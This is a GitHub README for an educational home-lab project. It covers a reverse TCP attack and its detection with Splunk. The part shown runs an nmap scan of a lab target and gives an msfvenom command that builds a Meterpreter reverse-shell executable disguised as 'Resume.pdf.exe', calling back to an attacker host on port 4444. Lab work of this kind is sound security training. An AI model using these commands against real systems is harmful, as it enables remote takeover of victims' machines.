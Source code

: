 # ReverseTCPAttack

## Objective
The ReverseTCPAttack project intends to create an exploit known as a reverse TCP attack in which a server initiates a connection to the host. Splunk is used as a SIEM to analyze data from this attack. This is done in a controlled environment for educational purposes ONLY. 

### Skills Learned
- Payload Generation: Generate different types of payloads using MSFvenom
- Payload Delivery and Execution: Understanding methods for delivering and executing generated payloads on target systems
- Handler Setup: Configuring handlers within Metasploit to receive connections from generated payloads and maintain access to compromised systems.

### Tools Used
- Nmap: Scan a network for open ports 
- MSFvenom: Creation of malware payload
- Metasploit: Receive connections between target device
- Python3: Host malware payload 

## Prerequisites 
Refer to [VirtualBox & Active Directory](https://github.com/Y-Arvin/VirtualBox-ActiveDirectory) for setting up the network that will be used. The first nine and reference 26, will be used as a guide for setting up the network. 

Refer to [Splunk](https://github.com/Y-Arvin/Splunk) for the installation of Splunk with Sysmon olaf configurations. The first ten reference photos will be used as a guide for setting up Splunk with Sysmon olaf configurations. 

## Walkthrough
**Identify Open Ports** <br>
On Kali Linux use Nmap to scan and find all open ports on target PC `192.168.10.100`
```bash
$ nmap -A 192.168.10.100 -Pn
```
> -A = OS detection, version detection, script scanning, and traceroute <br>
> -Pn = Skip host discovery

<img src="https://i.imgur.com/XgL1xxj.png" width="500"> <br> <sup>Ref 1: Nmap scan has found port 3389 RDP to be open </sup>

**Create Malware** <br>
Use msfvenom to list payloads and copy the payload `windows/x64/meterpreter_reverse_tcp`
```bash
$ msfvenom -l payloads
```
Create an executable malware file called `Resume.pdf.exe` using the meterpreter reverse tcp payload using port 4444 
```bash
$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.10.250 lport=4444 -f exe -o Resume.pdf.exe
```
> -p = Payload <br>
> -f = File format <br>
> -o = Name of file
